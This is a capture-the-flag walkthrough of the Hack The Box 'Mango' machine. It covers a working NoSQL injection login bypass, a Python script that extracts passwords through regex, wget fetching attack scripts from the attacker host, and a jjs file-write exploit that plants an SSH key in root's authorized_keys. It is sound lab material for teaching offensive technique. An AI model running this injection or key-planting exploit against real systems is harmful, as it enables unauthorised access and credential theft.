







---
search:
  exclude: true
---
# Mango Writeup

## Introduction :

Mango is a Medium linux box released back in October 2019.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/3 ] [~/HTB/mango]
    → nmap -sCV -p22,80,443 10.10.10.162
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-22 09:05 CEST
    Nmap scan report for 10.10.10.162
    Host is up (0.46s latency).
    
    PORT    STATE SERVICE  VERSION
    22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
    |   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
    |_  256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
    80/tcp  open  http     Apache httpd 2.4.29
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    |_http-title: 403 Forbidden
    443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    |_http-title: Mango | Search Base
    | ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
    | Not valid before: 2019-09-27T14:21:19
    |_Not valid after:  2020-09-26T14:21:19
    |_ssl-date: TLS randomness does not represent time
    | tls-alpn:
    |_  http/1.1
    Service Info: Host: 10.10.10.162; OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 40.36 seconds
    
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 80 with the domain name **staging-order.mango.htb** so let's investigate it after we add it to our hosts file:
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/3 ] [~/HTB/mango]
    → sudo -i
    [sudo] password for nothing:
    ┌──(root💀nowhere)-[~]
    └─# echo '10.10.10.162 staging-order.mango.htb mango.htb' >> /etc/hosts
    
    ┌──(root💀nowhere)-[~]
    └─# ping -c1 mango.htb ; ping -c1 staging-order.mango.htb
    PING staging-order.mango.htb (10.10.10.162) 56(84) bytes of data.
    64 bytes from staging-order.mango.htb (10.10.10.162): icmp_seq=1 ttl=63 time=466 ms
    
    --- staging-order.mango.htb ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 466.188/466.188/466.188/0.000 ms
    PING staging-order.mango.htb (10.10.10.162) 56(84) bytes of data.
    64 bytes from staging-order.mango.htb (10.10.10.162): icmp_seq=1 ttl=63 time=461 ms
    
    --- staging-order.mango.htb ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 460.854/460.854/460.854/0.000 ms
    
    ┌──(root💀nowhere)-[~]
    └─# exit
    
    [ 10.66.66.2/32 ] [ /dev/pts/3 ] [~/HTB/mango]
    →
    
    

Now mango.htb gives us a 403 forbidden error message:
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/3 ] [~/HTB/mango]
    → curl mango.htb
    
    403 Forbidden
    
    
    # Forbidden
    
    
    
    
    You don't have permission to access this resource.
    
    
    
    
    * * *
    
    
    Apache/2.4.29 (Ubuntu) Server at mango.htb Port 80
    
    

However the **staging-order** subdomain has something else for us: 

Now we intercept the POST login request with burpsuite, and send it to the repeater:

Now once we send the request, we see that it just puts us back at the login page with nothing interesting to debug the logins themselves. 

So instead we're going to use ffuf to find webpages:
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/3 ] [~/HTB/mango]
    → ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -fc 403 -u http://staging-order.mango.htb**/FUZZ**
    
            /'___\  /'___\           /'___\
           /\ \__/ /\ \__/  __  __  /\ \__/
           \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
            \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
             \ \_\   \ \_\  \ \____/  \ \_\
              \/_/    \/_/   \/___/    \/_/
    
           v1.3.1 Kali Exclusive
    ________________________________________________
    
     :: Method           : GET
     :: URL              : http://staging-order.mango.htb/FUZZ
     :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
     :: Follow redirects : false
     :: Calibration      : false
     :: Timeout          : 10
     :: Threads          : 50
     :: Matcher          : Response status: 200,204,301,302,307,401,403,405
     :: Filter           : Response status: 403
    ________________________________________________
    
    #                       [Status: 200, Size: 4022, Words: 447, Lines: 210]
    #                       [Status: 200, Size: 4022, Words: 447, Lines: 210]
    
    [...]
    
    **vendor                  [Status: 301, Size: 335, Words: 20, Lines: 10]**
    [WARN] Caught keyboard interrupt (Ctrl-C)
    
    [ 10.66.66.2/32 ] [ /dev/pts/3 ] [~/HTB/mango]
    → ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -t 50 -fc 403 -u http://staging-order.mango.htb**/vendor/FUZZ**
    
            /'___\  /'___\           /'___\
           /\ \__/ /\ \__/  __  __  /\ \__/
           \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
            \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
             \ \_\   \ \_\  \ \____/  \ \_\
              \/_/    \/_/   \/___/    \/_/
    
           v1.3.1 Kali Exclusive 
    ________________________________________________
    
     :: Method           : GET
     :: URL              : http://staging-order.mango.htb/vendor/FUZZ
     :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt
     :: Follow redirects : false
     :: Calibration      : false
     :: Timeout          : 10
     :: Threads          : 50
     :: Matcher          : Response status: 200,204,301,302,307,401,403,405
     :: Filter           : Response status: 403
    ________________________________________________
    
    **composer                [Status: 301, Size: 344, Words: 20, Lines: 10]**
    [WARN] Caught keyboard interrupt (Ctrl-C)
    
    

Here we found the **/vendor/composer/** directory, [composer](https://en.wikipedia.org/wiki/Composer_\(software\)) is a PHP dependency manager that provides a standard format for managing dependencies of PHP software and required libraries. Composer usually contains a file called **installed.json** so we browse to see if it's there:

And since we have been able to verify that the box has a [mongodb NoSQL](https://www.mongodb.com/nosql-explained) backend we can now assume that we need to perform a [NoSQL injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)

So here we have a few potential NoSQL injections to try out, but the one we need here is the **[$ne]** (not equal) authentication bypass exploit:

We attempt the not equal ([$ne]) authentication bypass and succeed to login as the admin user, however we don't get anything interesting after logging in:

so instead when we take another look at the payloadallthethings nosql cheatsheet, we see that it is possible to extract informations from the database via regex:

So we make the following python script to automate this information disclosure:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/20 ] [~/HTB/mango]
    → cat injection.py
    import requests
    
    def inject(data):
            r = requests.post('http://staging-order.mango.htb/', data=data, allow_redirects=False)
            if r.status_code != 200:
                    return True
    
    secret = ""
    payload= ""
    while True:
            data = { "username[$regex]":"^" + payload + "$", "password[$ne]":"admin", "login":"login"  }
            if inject(data):
                    break
            for i in range(32,126):
                    if chr(i) in ['.','?','*','^']:
                            payload = secret + "\\" + chr(i)
                    else:
                            payload = secret +chr(i)
                    print("\r" + payload, flush=False, end='')
                    data = { **"username":"admin", "password[$regex]":"^" + payload** , "login":"login"  }
                    if inject(data):
                            print("\r" + payload, flush=True, end=''  )
                            secret= secret + chr(i)
                            break
    print()
    
    

We're going to try to get the admin password: 
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/20 ] [~/HTB/mango]
    → python3 injection.py
    t++9++K++c++S++3++>!++0++B#++2$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$
    
    

And as you can see it matches the **$** as being the end of the line, however the + symbol is a bad character so we need to filter it:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/20 ] [~/HTB/mango]
    → vim injection.py
    
    [...]
    
    if chr(i) in ['.','?','*','^','+']:
    
    [...]
    
    :wq
    
    [ 10.10.14.11/23 ] [ /dev/pts/20 ] [~/HTB/mango]
    → python3 injection.py
    t9KcS3>!0B#2$$$$$$$$
    

Now that we have the admin credentials **admin:t9KcS3>!0B#2** , now let's get the mango user's password:
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/20 ] [~/HTB/mango]
    → vim injection.py
    
    [...]
    
    for i in range(32,127):
    	if chr(i) in ['.','?','*','^', '+', '|']:
    
    [...]
    
    data = { **"username":"mango", "password[$regex]":"^" + payload** , "login":"login"  }
    
    [...]
    
    :wq
    
    [ 10.10.14.11/23 ] [ /dev/pts/20 ] [~/HTB/mango]
    → python3 injection.py
    h3mXK8RhU~f{]f5H$$$$$$$$$$$$$$$$$
    

So now we have mango's credentials: **mango:h3mXK8RhU~f{]f5H**

So let's login via SSH:
    
    
    [ 10.66.66.2/32 ] [ /dev/pts/3 ] [~/HTB/mango]
    → ssh mango@10.10.10.162
    The authenticity of host '10.10.10.162 (10.10.10.162)' can't be established.
    ECDSA key fingerprint is SHA256:AhHG3k5r1ic/7nEKLWHXoNm0m28uM9W8heddb9lCTm0.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '10.10.10.162' (ECDSA) to the list of known hosts.
    mango@10.10.10.162's password:
    Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-64-generic x86_64)
    
     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    
      System information as of Tue Jun 22 09:45:28 UTC 2021
    
      System load:  0.0                Processes:            102
      Usage of /:   25.8% of 19.56GB   Users logged in:      0
      Memory usage: 15%                IP address for ens33: 10.10.10.162
      Swap usage:   0%
    
    
     * Canonical Livepatch is available for installation.
       - Reduce system reboots and improve kernel security. Activate at:
         https://ubuntu.com/livepatch
    
    122 packages can be updated.
    18 updates are security updates.
    
    
    Last login: Mon Sep 30 02:58:45 2019 from 192.168.142.138
    mango@mango:~$ id
    uid=1000(mango) gid=1000(mango) groups=1000(mango)
    

We are now logged in as the user mango, but we also have other credentials for the admin user, so let's try them:
    
    
    mango@mango:~$ su - admin
    Password:
    $ id
    uid=4000000000(admin) gid=1001(admin) groups=1001(admin)
    $ bash
    To run a command as administrator (user "root"), use "sudo ".
    See "man sudo_root" for details.
    
    admin@mango:/home/admin$ ls
    user.txt
    admin@mango:/home/admin$ cat user.txt
    0aXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it! We managed to get to the admin user on the box and print the user flag.

## **Part 3 : Getting Root Access**

Now in order to privesc on this box we're going to use linpeas.sh to enumerate it: 
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/23 ] [~/HTB/mango]
    → cp /home/nothing/HTB/Traverxec/linpeas.sh .
    
    [ 10.10.14.11/23 ] [ /dev/pts/23 ] [~/HTB/mango]
    → python3 -m http.server 9090
    Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
    
    
    admin@mango:/home/admin$ wget http://10.10.14.11:9090/linpeas.sh -O /tmp/peas.sh
    --2021-06-22 09:49:08--  http://10.10.14.11:9090/linpeas.sh
    Connecting to 10.10.14.11:9090... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 341863 (334K) [text/x-sh]
    Saving to: ‘/tmp/peas.sh’
    
    /tmp/peas.sh                                                    100%[======================================================================================================================================================>] 333.85K   175KB/s    in 1.9s
    
    2021-06-22 09:49:11 (175 KB/s) - ‘/tmp/peas.sh’ saved [341863/341863]
    
    admin@mango:/home/admin$ chmod +x /tmp/peas.sh
    admin@mango:/home/admin$ /tmp/peas.sh
    

` 

Let it run and then scrolling through the output we stumble upon **/usr/lib/jvm/java-11-openjdk-amd64/bin/jjs**

For that we can take a look at [gtfobins:](https://gtfobins.github.io/gtfobins/jjs/#file-write)

So here we have our template exploit bashscript:
    
    
    echo 'var FileWriter = Java.type("java.io.FileWriter");
    var fw=new FileWriter("./file_to_write");
    fw.write("DATA");
    fw.close();' | jjs
    
    

we're going to modify it to place a public ssh key into /root/.ssh/authorized_keys
    
    
    echo 'var FileWriter = Java.type("java.io.FileWriter");
    var fw=new FileWriter("/root/.ssh/authorized_keys");
    fw.write("ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAfhgjcMFy5mO4fwhQyW6vdX5bgTzqZTh9MhCW7+k6Sj nothing@nowhere");
    fw.close();' | jjs
    
    

download the exploit onto the box: 
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/23 ] [~/HTB/mango]
    → cat exploit.sh
    #!/bin/bash
    echo 'var FileWriter = Java.type("java.io.FileWriter");
    var fw=new FileWriter("/root/.ssh/authorized_keys");
    fw.write("ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAfhgjcMFy5mO4fwhQyW6vdX5bgTzqZTh9MhCW7+k6Sj nothing@nowhere");
    fw.close();' | jjs
    
    [ 10.10.14.11/23 ] [ /dev/pts/23 ] [~/HTB/mango]
    → python3 -m http.server 9090
    Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
    
    
    
    admin@mango:/home/admin$ wget http://10.10.14.11:9090/exploit.sh -O /tmp/exploit.sh
    --2021-06-22 09:59:06--  http://10.10.14.11:9090/exploit.sh
    Connecting to 10.10.14.11:9090... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 250 [text/x-sh]
    Saving to: ‘/tmp/exploit.sh’
    
    /tmp/exploit.sh                                             100%[===========================================================================================================================================>]     250  --.-KB/s    in 0s
    
    2021-06-22 09:59:07 (22.7 MB/s) - ‘/tmp/exploit.sh’ saved [250/250]
    
    admin@mango:/home/admin$ chmod +x /tmp/exploit.sh
    admin@mango:/home/admin$ /tmp/exploit.sh
    Warning: The jjs tool is planned to be removed from a future JDK release
    jjs> var FileWriter = Java.type("java.io.FileWriter");
    jjs> var fw=new FileWriter("/root/.ssh/authorized_keys");
    jjs> fw.write("ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAfhgjcMFy5mO4fwhQyW6vdX5bgTzqZTh9MhCW7+k6Sj nothing@nowhere");
    jjs> fw.close();
    jjs> admin@mango:/home/admin$
    

now login as root: 
    
    
    [ 10.10.14.11/23 ] [ /dev/pts/23 ] [~/HTB/mango]
    → ssh root@10.10.10.162 -i ~/.ssh/mainpc
    Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-64-generic x86_64)
    
     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage
    
      System information as of Tue Jun 22 09:59:46 UTC 2021
    
      System load:  0.0                Processes:            112
      Usage of /:   26.0% of 19.56GB   Users logged in:      1
      Memory usage: 10%                IP address for ens33: 10.10.10.162
      Swap usage:   5%
    
    
     * Canonical Livepatch is available for installation.
       - Reduce system reboots and improve kernel security. Activate at:
         https://ubuntu.com/livepatch
    
    122 packages can be updated.
    18 updates are security updates.
    
    Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
    
    
    Last login: Thu Oct 10 08:33:27 2019
    root@mango:~# cat /root/root.txt
    70XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it! We managed to get the root flag. 

## **Conclusion**

Here we can see the progress graph :

